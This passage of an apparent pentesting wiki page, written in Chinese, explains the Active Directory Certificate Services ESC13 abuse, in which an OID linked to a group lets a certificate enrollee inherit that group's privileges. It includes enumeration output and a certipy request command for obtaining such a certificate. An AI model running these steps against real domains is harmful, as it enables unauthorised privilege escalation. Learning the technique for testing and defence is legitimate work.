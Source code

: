 ### 解释

`msPKI-Certificate-Policy` 属性允许将发行政策添加到证书模板中。负责发行政策的 `msPKI-Enterprise-Oid` 对象可以在 PKI OID 容器的配置命名上下文 (CN=OID,CN=Public Key Services,CN=Services) 中发现。可以使用该对象的 `msDS-OIDToGroupLink` 属性将政策链接到 AD 组，从而使系统能够授权呈现证书的用户，仿佛他是该组的成员。[Reference in here](https://posts.specterops.io/adcs-esc13-abuse-technique-fda4272fbd53)。

换句话说，当用户有权注册证书且该证书链接到 OID 组时，用户可以继承该组的权限。

使用 [Check-ADCSESC13.ps1](https://github.com/JonasBK/Powershell/blob/master/Check-ADCSESC13.ps1) 查找 OIDToGroupLink:
```bash
Enumerating OIDs
------------------------
OID 23541150.FCB720D24BC82FBD1A33CB406A14094D links to group: CN=VulnerableGroup,CN=Users,DC=domain,DC=local

OID DisplayName: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID DistinguishedName: CN=23541150.FCB720D24BC82FBD1A33CB406A14094D,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local
OID msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID msDS-OIDToGroupLink: CN=VulnerableGroup,CN=Users,DC=domain,DC=local
------------------------
Enumerating certificate templates
------------------------
Certificate template VulnerableTemplate may be used to obtain membership of CN=VulnerableGroup,CN=Users,DC=domain,DC=local

Certificate template Name: VulnerableTemplate
OID DisplayName: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID DistinguishedName: CN=23541150.FCB720D24BC82FBD1A33CB406A14094D,CN=OID,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local
OID msPKI-Cert-Template-OID: 1.3.6.1.4.1.311.21.8.3025710.4393146.2181807.13924342.9568199.8.4253412.23541150
OID msDS-OIDToGroupLink: CN=VulnerableGroup,CN=Users,DC=domain,DC=local
------------------------
```
### 滥用场景

找到一个用户权限，可以使用 `certipy find` 或 `Certify.exe find /showAllPermissions`。

如果 `John` 有权限注册 `VulnerableTemplate`，则该用户可以继承 `VulnerableGroup` 组的特权。

所需的只是指定模板，它将获得具有 OIDToGroupLink 权限的证书。
```bash
certipy req -u "John@domain.local" -p "password" -dc-ip 192.168.100.100 -target "DC01.domain.local" -ca 'DC01-CA' -template 'VulnerableTemplate'
```
## 脆弱的证书续订配置 - ESC14

### 解释
